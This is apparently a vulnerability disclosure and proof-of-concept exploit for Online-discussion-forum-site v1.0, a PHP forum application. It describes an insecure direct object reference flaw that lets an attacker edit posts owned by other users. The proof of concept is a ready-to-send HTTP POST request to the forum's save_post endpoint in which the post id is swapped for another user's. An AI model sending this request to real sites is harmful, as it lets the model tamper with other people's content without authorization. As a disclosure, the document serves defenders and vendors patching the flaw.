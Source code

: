 # Exploit Title: Online-discussion-forum-site v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Online-discussion-forum-site v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to update post that owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /odfs/classes/Master.php?f=save_post HTTP/1.1
...

------WebKitFormBoundaryHFCTz7bcSc9IpxCG
Content-Disposition: form-data; name="id"

6(CHANGE HERE)
------WebKitFormBoundaryHFCTz7bcSc9IpxCG
Content-Disposition: form-data; name="title"

mypost1111
------WebKitFormBoundaryHFCTz7bcSc9IpxCG
Content-Disposition: form-data; name="category_id"

1
------WebKitFormBoundaryHFCTz7bcSc9IpxCG
Content-Disposition: form-data; name="content"

<p>aaaaa</p>
------WebKitFormBoundaryHFCTz7bcSc9IpxCG
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryHFCTz7bcSc9IpxCG--

```